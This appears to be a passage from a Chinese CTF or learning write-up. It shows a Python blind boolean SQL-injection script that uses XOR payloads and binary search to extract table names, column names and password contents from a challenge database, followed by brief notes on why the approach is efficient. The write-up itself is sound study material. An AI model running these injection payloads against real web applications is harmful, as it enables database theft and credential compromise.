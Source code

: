 ```plain
        # temp["id"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        # 字段名
        # temp["id"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" %(i,mid)
        # 内容
        # temp["id"] = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" %(i,mid)
        r = requests.get(url, params=temp)
        time.sleep(0.04)
        print(low, high, mid, ":")
        # 二分法
        if "Click" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
        # 不进行长度判断，而使代码停下的关键
        # 超过长度之后，所有的页面都是error，最终mid为32，使代码停下
        # 后面的mid==127不太明白意思
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
    print(column)

print("All:", column)
```

> 读了代码，写一下思路
>
> 1.没有进行长度判断，减少步骤
>
> 2.利用二分法判断 ascii 码值,减少步骤;
>
> 3.32 到 128 正好是字符的 ascii 值范围,也提高效率
>

粘一下结果

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732361554511-1be98a24-baba-4d07-9bc7-ec5c046e24d6.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732361667569-af8f04ef-e417-43ba-b19f-ab9d9e05563f.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732362702605-13c54c39-ae54-4684-9a09-ea786296e4db.png)



